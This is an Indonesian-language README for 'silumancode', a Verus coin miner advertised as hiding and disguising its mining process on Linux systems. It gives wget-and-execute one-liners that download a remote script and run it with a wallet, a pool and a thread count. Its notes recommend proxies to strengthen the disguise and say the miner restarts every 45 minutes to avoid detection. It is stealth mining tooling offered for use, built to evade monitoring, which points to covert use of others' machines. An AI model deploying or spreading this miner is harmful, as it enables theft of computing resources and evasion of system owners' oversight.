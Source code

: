 # silumancode
miner verus coin yang mampu menyembunyikan dan menyamarkan proses mining di sistem linux
## install dependence :
 apt-get install libcurl4-openssl-dev libssl-dev libjansson-dev automake autotools-dev build-essential -y
## Penggunaan
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh && ./sh wallet.namaminer pool thread y/n
- Keterangan :
        - wallet : alamat walet verus miner anda
        - pool   : pool mining verus coin (usahakan menggunakan proxy)
        - thread : jumlah thread processor yang akan digunakan (usakan tidak menggunakan thread maksimal yang tersedia)
        - y/n    : opsi untuk menampilkan proses mining dari miner (y untuk menampilkan, no tidak menampilkan)
### example
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 n
![tampilan example](images/cmsil.png)
dan jika ingin menyembunyikan tampilan proses miner bisa menggunakan opsi (y) di akhir kode
### example II
wget https://github.com/x011-al/silumancode/raw/refs/heads/main/sh && chmod +x sh \
&& ./sh RP6jedjfhjfkkfjt1.minervps1 stratum+tcp://eu.luckpool.net 2 y
![tampilan example II](images/cmsil2.png)
### Catatan Tambahan
1. gunakan proxy untuk memaksimalkan proses penyamaran proses mining
2. proses miner akan di restart setiap 45 menit (untuk menghindari deteksi system)
3. kode ini hanya sementara untuk penggunaan jangka panjang dan mining coin lain, bisa menghubungi contak wa : 
